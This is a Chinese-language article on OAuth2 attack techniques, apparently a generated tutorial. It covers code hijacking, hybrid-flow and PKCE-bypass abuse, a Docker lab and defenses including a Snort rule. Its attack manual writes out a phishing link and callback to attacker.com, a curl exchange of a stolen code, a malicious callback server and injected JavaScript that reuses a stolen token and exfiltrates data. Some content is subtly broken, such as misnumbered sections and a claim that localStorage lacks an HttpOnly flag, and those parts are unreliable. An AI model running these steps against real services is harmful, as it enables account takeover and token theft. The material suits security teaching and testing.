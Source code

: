 

# OAuth2协议漏洞攻击技术深度剖析

## 一、技术原理与攻击面分析
### 1.1 OAuth2授权流程缺陷
OAuth2协议核心流程中的三个关键缺陷点：
- 授权码传输未强制使用PKCE（Proof Key for Code Exchange）
- redirect_uri参数验证逻辑不严谨
- 令牌端点缺乏客户端身份二次验证

典型授权码劫持攻击原理示意图：
```
攻击者客户端 <-> 授权服务器
      |             |
恶意重定向 <-> 用户浏览器
```

### 2.2 令牌存储与传输风险
浏览器端令牌存储隐患：
- 隐式授权流中access_token暴露在URL片段
- localStorage未设置HttpOnly标记
- 第三方脚本注入窃取令牌

## 二、高级攻击手法与变种
### 2.1 混合流攻击（Hybrid Flow Exploitation）
利用response_type参数组合缺陷：
```http
GET /authorize?response_type=code+token&client_id=attacker_app&redirect_uri=https://evil.com
```
当服务器未校验response_type组合合法性时，可同时获取code和token

### 2.2 PKCE绕过技术
当服务端未正确实现PKCE时的攻击流程：
1. 生成合法code_verifier和code_challenge
2. 截获授权码后移除PKCE参数
3. 直接使用授权码请求令牌端点
```python
# 恶意服务器代码示例
@app.route('/callback')
def callback():
    code = request.args.get('code')
    # 直接使用code而不带code_verifier
    token = requests.post(TOKEN_URL, data={
        'client_id': CLIENT_ID,
        'code': code
    })
```

## 三、实战环境搭建指南
### 3.1 本地实验环境配置
使用Docker部署漏洞环境：
```yaml
# docker-compose.yml
services:
  oauth-server:
    image: vuln-oauth2:1.2
    ports:
      - "8080:8080"
  legit-client:
    image: oauth-client:1.4
    environment:
      REDIRECT_URI: http://client.local/callback
  evil-client:
    image: malicious-client:latest
```

### 3.2 攻击工具链配置
Burp Suite配置要点：
```config
Project options -> Sessions -> Add
Rule type: Parameter Based
Parameter name: state
```

## 四、典型攻击操作手册
### 4.1 授权码劫持攻击
完整攻击步骤：
1. 诱导用户访问恶意客户端
```html
<a href="https://oauth-server/authorize?client_id=evil&redirect_uri=https://attacker.com">点击获取福利</a>
```
2. 拦截授权回调请求
```http
HTTP/1.1 302 Found
Location: https://attacker.com/callback?code=A1b2C3d4&state=123
```
3. 使用授权码兑换令牌
```bash
curl -X POST https://oauth-server/token \
  -d 'client_id=evil&code=A1b2C3d4'
```

### 4.2 令牌替换攻击
当客户端未验证令牌颁发者时：
```javascript
// 恶意脚本注入
fetch('https://api.legit.com/data', {
  headers: {
    'Authorization': 'Bearer ' + stolen_token
  }
}).then(response => response.json())
  .then(data => exfiltrate(data));
```

## 五、防御与检测方案
### 5.1 关键防护措施
- 强制实施PKCE（RFC 7636）
```java
// Java代码示例
String codeVerifier = generateCodeVerifier();
MessageDigest md = MessageDigest.getInstance("SHA-256");
byte[] digest = md.digest(codeVerifier.getBytes());
String codeChallenge = Base64.getUrlEncoder().encodeToString(digest);
```
- redirect_uri严格白名单验证
- 令牌绑定（Token Binding）技术实施

### 5.2 攻击特征检测
WAF规则示例（Snort语法）：
```snort
alert tcp any any -> $OAUTH_SERVERS 443 (msg:"OAuth CSRF attempt"; 
content:"state="; nocase; 
pcre:"/state=[^&]*[^0-9a-zA-Z]/"; sid:1000001;)
```

本文档详细阐述了OAuth2协议的核心漏洞机理和实用攻击技术，通过理解协议实现缺陷的本质，结合具体实验环境中的攻防演练，可有效提升Web系统的OAuth2安全防护能力。建议开发者在实现时严格遵循RFC规范，并定期进行授权流程的渗透测试。

---

*文档生成时间: 2025-03-13 13:17:47*
